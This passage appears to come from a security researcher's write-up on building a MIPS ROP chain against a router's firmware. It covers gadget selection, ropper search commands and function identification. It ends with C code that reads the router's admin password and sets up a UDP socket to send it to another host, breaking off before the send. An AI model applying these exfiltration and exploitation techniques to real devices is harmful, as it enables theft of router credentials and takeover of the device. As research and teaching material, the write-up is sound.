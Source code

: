 We also don't really want gadgets that use a huge chunk of stack space, e.g., a gadget that loads the return address from *0x1000($sp)*, as that would fill our payload with loads of padding.

An example of a good gadget is the following:

```
-mipsasm
lw $v0, ($v0); 
lw $ra, 4($sp); 
jr $ra; 
addiu $sp, $sp, 8; 
```

- Loads the return address from *4($sp)* so control of the return address is maintained
- Uses 8 bytes of payload space
- Doesn't clobber any registers except the intended register, *$v0*

I mentioned Ropper earlier, but I thought I would knock together a quick set of examples I found useful:
- **ropper --arch MIPS --file chaneve_router.bin --search "lw \$a0" --all** : Finds all gadgets containing **lw $a0, X($X)** instruction, including repeated gadgets
- **ropper --arch MIPS --file chaneve_router.bin --search "move \$a1, \$s?"** : Finds all gadgets that move any *s* register into *$a1*
- **ropper --arch MIPS --file chaneve_router.bin --search "move \$??, \$sp** --inst-count 10` : Finds all gadgets that move the stack pointer to a register, with a maximum of 10 instructions in the gadget (instead of the default max of 6)

## Finding functions

In some binaries without symbols, finding functions can be pretty difficult - especially if things like debug strings have been stripped out or source code is not available. Luckily for us, there are plenty of debug strings that can be used to identify loads of primitive C functions, such as *socket*, *sendto*, *recvfrom*, *setsockopt*, etc. 

I also identified other functions such as *sleep*, *malloc*, and *free* by googling some debug strings and finding source code online, as this is a Realtek SDK it is pretty simple to find. Then it is just a matter of comparing it against what you have in Ghidra, and you can easily name plenty of functions.

# Building the Chain

Now that we know some fundamentals of MIPS, how to do ROP, and how to find good gadgets, we can get to work on the chain.

## Goal

The goal of the chain is to send the admin password of the router to some other device on the network via UDP socket. So we basically need to execute the following code in C using ROP:

```
-c
int sockfd;
struct sockaddr_in server_addr;
char* message = malloc(sizeof(char) * 100); // can be some heap address in our chain

// create a UDP socket
sockfd = socket(AF_INET, SOCK_DGRAM, 0);

// Get the admin password from the config
config_get(0x1010200, message);

// set up server address
memset(&server_addr, 0, sizeof(server_addr));
server_addr.sin_family = AF_INET;
server_addr.sin_port = htons(4900);
server_addr.sin_addr.s_addr = inet_addr("192.168.188.1");
```